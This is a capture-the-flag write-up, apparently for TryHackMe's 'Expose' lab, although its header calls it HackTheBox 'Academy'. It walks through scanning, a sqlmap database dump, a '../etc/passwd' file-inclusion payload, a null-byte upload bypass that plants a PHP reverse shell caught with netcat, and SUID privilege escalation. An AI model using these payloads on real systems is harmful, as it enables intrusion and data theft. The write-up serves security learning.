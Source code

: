 ```yaml
---
title: "Academy"
collection: publications
permalink: /publication/academy
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-09-19
venue: '09-19'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/expose-header.png)

**LINK:** [Academy](https://tryhackme.com/room/expose)

---

## Enumeration : 

* The initial scan of the target revealed 6 open ports

```bash
# nmap -sV -sC -T4 -p- 10.10.191.104
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 08:18 EDT
Nmap scan report for 10.10.191.104
Host is up (0.11s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE    SERVICE                 VERSION
21/tcp    open     ftp                     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.0.245
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open     ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 54b1deb55cd1c66348b9425dc5a726cf (RSA)
|   256 0466e91b7928de2252c68c488d259339 (ECDSA)
|_  256 b58adc38ec28fd7249e239f0ff9fe5a6 (ED25519)
53/tcp    open     domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp  open     http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp  open     mosquitto version 1.6.9
35224/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* I initiated a directory scan using ``ffuf`` on the web server at port 1337, which yielded several interesting directories.

```bash
ffuf -u http://10.10.197.217:1337/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.197.217:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 684ms]
    * FUZZ: .htaccess

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 185ms]
    * FUZZ: .htpasswd

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 183ms]
    * FUZZ: admin

[Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 175ms]
    * FUZZ: admin_101

[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 119ms]
    * FUZZ: javascript

[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 121ms]
    * FUZZ: phpmyadmin

[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 135ms]
    * FUZZ: server-status

:: Progress: [20476/20476] :: Job [1/1] :: 315 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```
* While i explored the directories, i was unable to find any useful information regarding the ``/admin`` page.
* However, i noticed something intriguing on ``/admin_101``,  the username field was prefilled, indicating that this might be the correct login page.

![expose1](/images/expose1.png)

## User Flag : 

* Lacking valid credentials, i considered a SQL injection attack as our next step.
* i captured the login request with Burp Suite and saved the request to use SQLMap for our attack

![expose2](/images/expose2.png)

* Running SQLMap with the captured request, we successfully dumped the database.

```bash
sqlmap -r req --dump
```

![expose3](/images/expose3.png)

* From the database, i obtained the password for the admin portal and discovered two URLs: `/file1010111/index.php` and `/upload-cv00101011/index.php`.

* i found a hash for `/file1010111/index.php`, which might be crackable.

![expose4](/images/expose4.png)

* As i provided the cracked password, i received another hint to fuzz for parameters.

![expose5](/images/expose5.png)

* Visiting `/upload-cv00101011/index.php` gives us a hint about the password being the name of the machine user starting with the letter Z.

* back to `/file1010111/index.php`, let's check the source code

![expose6](/images/expose6.png)

* the 2nd hint suggests to use `file` or `View` as get parameters, it indicates that maybe this page is vulnerable to local file inclusion and we can read files on the system.

* By adding `?file=../../../../../etc/passwd` to the URL, i successfully read the `/etc/passwd` file and identify a username starts with letter `Z` which is `zeamkish`.

![expose7](/images/expose7.png)

* Upon visiting `/upload-cv00101011/index.php` after providing the username, i encountered a file upload page.

![expose8](/images/expose8.png)

* Examining the source code, i discovered a simple JavaScript filter allowing only JPG or PNG files.

![expose9](/images/expose9.png)

* A quick search on bypassing file upload restrictions led me to a useful [resource](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)

* I downloaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), renamed it to shell.phpD.jpg, and captured the upload request in Burp Suite.

* Switching to hex format and changed the letter "D" to a null byte `00`

![expose10](/images/expose10.png)

![expose11](/images/expose11.png)

* Starting a netcat listenner and visiting `/upload-cv00101011/upload_thm_1001` and clicking on `shell.php` triggered the payload.

```bash
nc -lvnp 1234
```

![expose12](/images/expose12.png)

* After gaining a shell, i upgraded it by following specific commands

![expose13](/images/expose13.png)

* In `zeamkish's` home directory, i located the flag file that i couldn't access. However, i found the credentials stored for the user in `ssh_cred.txt`

![expose14](/images/expose14.png)

* Logging in as zeamkish via `SSH`, i obtained the user flag.

## Root Flag: 

* Privilege escalation proved to be straightforward. i identified the find command with the SUID bit set

```bash
find / -perm -u=s -type f 2>/dev/null
```

![expose15](/images/expose15.png)

* A visit to [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) showed us how to use it to escalate our privileges to root.

![expose16](/images/expose16.png)







